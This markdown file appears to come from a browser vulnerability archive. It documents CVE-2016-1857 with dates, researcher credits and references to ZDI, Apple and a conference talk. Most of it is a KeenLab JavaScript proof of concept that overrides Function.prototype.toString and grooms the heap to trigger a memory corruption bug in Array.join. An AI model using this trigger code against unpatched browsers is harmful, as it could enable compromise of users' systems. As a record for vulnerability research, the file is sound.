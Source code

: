 # CVE-2016-1857

- Report: Mar 2016
- Fix: May 2016
- Credit: KeenLab Tencent (Liang Chen, Zhen Feng, wushi), Jeonghoon Shin

## PoC

- PoC by KeenLab

```javascript
var bigArray = [];
var bigNum = 123456789;
var smallNum = 123;
var toStringCount = 0;

function fillBigArrayViaToString(n) {
    var results = [];

    for (var i = 0; i < n; i++)
        fillBigArrayViaToString.toString();

    return results;
}

Function.prototype.toString = function(x) {
    toStringCount++;
    bigArray.push(smallNum);

    if (toStringCount == 2000) {
        var newArray = new Uint32Array(8000);
        for (var i = 0; i < newArray.length; i++)
            newArray[i] = 0x10000000;
    }

    bigArray.push(fillBigArrayViaToString);
    bigArray.push(fillBigArrayViaToString);
    bigArray.push(fillBigArrayViaToString);
    return bigNum;
};

fillBigArrayViaToString(4000).join();

bigArray.length = 4000;

var stringResult = bigArray.join(":");
```

## Reference

- [ZDI](http://www.zerodayinitiative.com/advisories/ZDI-16-343/)
- [Apple](https://support.apple.com/ko-kr/HT206565)
- [POC conference ppt](http://www.powerofcommunity.net/poc2016/keen.pdf)
